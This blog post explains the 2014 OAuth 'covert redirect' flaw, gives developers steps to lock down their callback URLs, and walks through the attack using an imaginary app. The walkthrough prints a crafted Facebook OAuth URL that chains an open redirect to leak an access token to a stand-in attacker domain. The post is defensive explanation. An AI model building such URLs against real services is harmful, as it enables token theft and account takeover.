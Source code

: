 ```yaml
---
title: Closing another nasty security hole in OAuth
date: 2014-05-02
---
```


News broke today about a [widespread security flaw in OAuth and OpenID](http://tetraph.com/covert_redirect/oauth2_openid_covert_redirect.html). The written material is a bit short on actual explanations or actionable steps, which is unfortunate when the flaw claims to affect virtually all OAuth providers and must be patched in the OAuth client applications.

In the spirit of [my previous post on OAuth security issues](http://technotes.iangreenleaf.com/posts/closing-a-nasty-security-hole-in-oauth.html), I want to give you a practical guide to the issue. We're going to learn, in order: how to know if you’re vulnerable, how to fix it, and (for the curious) what the flaw actually is.

## Does it affect you? ##

Quite likely[^1]. The flaw is not tied to a particular OAuth implementation or usage pattern[^2]. The simplest way to know if you are affected is to follow the steps to fix it in the next section. If there's nothing there for you to do, you weren't vulnerable.

## How to fix it ##

Thankfully, closing the security hole is simple. Follow these steps for each of the OAuth providers (Facebook, Google, GitHub, etc) that you use:

1. Log in to the provider's OAuth management page. This is where you first registered your application with the provider, and where they show you the Client ID and Client Secret.

2. Find the place to enter your application's redirect URL. Google calls this the "Authorized redirect URI". GitHub calls it the "Authorization callback URL". In Facebook, you will find this under "Settings -> Advanced -> Valid OAuth redirect URIs"[^3].

3. Enter your **full** callback URL(s) in this field. This means you should be providing the entire path, such as `https://mysite.com/oauth/callback`. Do *not* use wildcards, and do *not* use only the domain.

That's it! You're safe[^4].

## What's the danger? ##

This vulnerability has two parts: trick the OAuth provider into redirecting to an unusual place, then as a result trick the OAuth client into leaking credentials.

Here's how it would go down:

1. CoypuApp is the trendiest web community for fans of obscure rodent species[^8]. CoypuApp lets users log in with Facebook. Alice, the user, trusts CoypuApp and uses her Facebook account as her identity.

2. When CoypuApp registered as a Facebook developer, they set it to trust their entire domain, `www.coypu.ar`.

3. CoypuApp offers a common convenience feature - when a user lands on a page and then logs in, they will be returned to the page they were viewing. To accomplish this, CoypuApp's home page takes an optional extra parameter, like this: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fwww.coypu.ar%2Fvideos%2F2243`. When `return_to` is present, it will redirect to the specified page, thus returning the user to the coypu video they were watching.

4. A malicious user posts on the CoypuApp forums[^5] purporting to link to an awesome coypu blog. In fact the URL is a handcrafted attack URL:

    ```
    https://www.facebook.com/dialog/oauth?client_id=5564&redirect_uri=http%3A%2F%2Fwww.coypu.ar%2Fwelcome%3Freturn_to%3Dhttp%253A%252F%252Fcoypu-haters.nz%252Fattack
    ```

    Let's break this link down: it initiates the OAuth login process with Facebook. One of the OAuth params is `redirect_uri`, which names the endpoint that Facebook will redirect to with a token. Normally, this would be `http://www.coypu.ar/oauth`, and CoypuApp would pull the token out of the hash and use it to authenticate the user[^6].

    But in this link, something is wrong. `redirect_uri` is set to another value: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fcoypu-haters.nz%2Fattack`. Facebook looks at this link and sees that it is at the `www.coypu.ar` domain. Facebook thus assumes it is safe. But remember that convenience feature we talked about? The attacker has snuck the `return_to` param into this URL, and it is pointing to a malicious site, `coypu-haters.nz`!

5. Alice sees the link to "awesome coypu blog" and clicks it. In the worst case, she still has a valid session at Facebook and it remembers her authorization of CoypuApp, so she is immediately passed through the OAuth process[^7].

6. Alice's browser is redirected with the OAuth token in the hash: `http://www.coypu.ar/welcome?return_to=http%3A%2F%2Fcoypu-haters.nz%2Fattack#access_token=d34db33f`.

7. The convenience feature sees that `return_to` is present, so it redirects to the URL it is given: `http://coypu-haters.nz/attack#access_token=d34db33f`.

8. Oh crap. The owner of `coypu-haters.nz` now has Alice's OAuth token and has access to anything that Alice authorized CoypuApp to do. They immediately start posting vile anti-coypu screeds to Alice's facebook wall, badly tarnishing her reputation.

It's a clever attack. It combines the unavoidably stateless nature of OAuth with the unrelated (but common) occurrence of open redirection endpoints in OAuth client domains to manipulate the provider's trust and the client's lack of caution. The root cause here is the poor choice of trusting all routes in a client's domain. OAuth providers must start demanding exact redirect paths when client apps are registered, and this problem will be effectively eliminated.

[^1]: I *could* say that you are only vulnerable if your domain hosts an "open redirection" endpoint - an endpoint that takes another URL as a parameter and indiscriminately redirects to it. However, it is my belief that an open redirection endpoint is a natural waste product of any sufficiently complicated web application, and so it is unwise both to assume that you will be aware of any that exist, and to believe that you will not introduce one at a later date. It is far easier to fix this vulnerability as I proscribe than it is to audit your entire infrastructure for open redirections.

[^2]: Clients that use the "authorization code" flow of OAuth **and** authenticate the token request with a secret known only to the client server are not directly vulnerable. However, this does you no good unless the provider is locked down to allow only the authorization code flow for your application. The attacker can craft a malicious URL with `response_type=token`, and most providers will happily honor that regardless of whether you ever implemented the implicit grant flow. At this point you are every bit as vulnerable as anyone else.

[^3]: Facebook's handling of this is shoddy and irresponsible. By hiding this option in the "Advanced" settings and defaulting to trusting the full domain, they've ensured that the vast majority of Facebook OAuth clients will be vulnerable to this. Your data is deeply unsafe in Facebook's hands, but then again, you should have already known that.

[^4]: Hopefully it goes without saying that your OAuth callback endpoint doesn't itself perform open redirection while keeping the hash params intact. If you've made that poor of a decision, maybe you should let someone else handle the OAuth code from now on.

[^5]: The malicious user could post this link anywhere, but the easiest way to target coypu enthusiasts is through their own forums.

[^6]: Let's hope CoypuApp is following [my previous advice](http://technotes.iangreenleaf.com/posts/closing-a-nasty-security-hole-in-oauth.html) on authenticating their tokens.

[^7]: The best case is that Alice has not yet signed in to CoypuApp, and so when she clicks the link she is prompted to "Allow CoypuApp to see my Facebook information". This might tip Alice off that something is wrong. But ordinary people find the Internet very confusing and more often than not will simply follow the instructions. So this isn't much of a "best" case.

[^8]: [Ian Lunderskov](https://twitter.com/lundersaur) insists that I credit him for his role in the development of this imaginary web application. And also that I belatedly credit him for the development of an imaginary capybara-based cryptocurrency.
